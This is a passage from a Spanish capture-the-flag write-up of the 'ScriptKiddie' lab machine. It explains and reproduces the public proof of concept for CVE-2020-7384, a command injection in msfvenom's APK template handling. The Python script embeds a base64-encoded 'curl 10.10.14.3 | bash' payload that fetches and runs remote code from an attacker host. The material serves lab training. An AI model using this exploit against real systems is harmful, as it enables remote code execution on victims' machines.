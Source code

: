 <img src="/photos/2022-09-16-ScriptKiddie-WriteUp/msfvenom.jpg" alt="drawing"  />  

Tiene buena pinta porque, como habíamos visto antes, la sección de *payloads* acepta la subida de un plantilla y como sistema operativo te deja elegir *android*.

### CVE-2020-7384  

Con ```searchsploit -x multiple/local/49491.py``` podemos ver el POC de la vulnerabilidad. Es el siguiente: 

```python 
## Exploit Title: Metasploit Framework 6.0.11 - msfvenom APK template command injection
## Exploit Author: Justin Steven
## Vendor Homepage: https://www.metasploit.com/
## Software Link: https://www.metasploit.com/
## Version: Metasploit Framework 6.0.11 and Metasploit Pro 4.18.0
## CVE : CVE-2020-7384

#!/usr/bin/env python3
import subprocess
import tempfile
import os
from base64 import b64encode

## Change me
payload = 'curl 10.10.14.3 | bash'

## b64encode to avoid badchars (keytool is picky)
payload_b64 = b64encode(payload.encode()).decode()
dname = f"CN='|echo {payload_b64} | base64 -d | sh #"

print(f"[+] Manufacturing evil apkfile")
print(f"Payload: {payload}")
print(f"-dname: {dname}")
print()

tmpdir = tempfile.mkdtemp()
apk_file = os.path.join(tmpdir, "evil.apk")
empty_file = os.path.join(tmpdir, "empty")
keystore_file = os.path.join(tmpdir, "signing.keystore")
storepass = keypass = "password"
key_alias = "signing.key"

## Touch empty_file
open(empty_file, "w").close()

## Create apk_file
subprocess.check_call(["zip", "-j", apk_file, empty_file])

## Generate signing key with malicious -dname
subprocess.check_call(["keytool", "-genkey", "-keystore", keystore_file, "-alias", key_alias, "-storepass", storepass,
                       "-keypass", keypass, "-keyalg", "RSA", "-keysize", "2048", "-dname", dname])

## Sign APK using our malicious dname
subprocess.check_call(["jarsigner", "-sigalg", "SHA1withRSA", "-digestalg", "SHA1", "-keystore", keystore_file,
                       "-storepass", storepass, "-keypass", keypass, apk_file, key_alias])

print()
print(f"[+] Done! apkfile is at {apk_file}")
```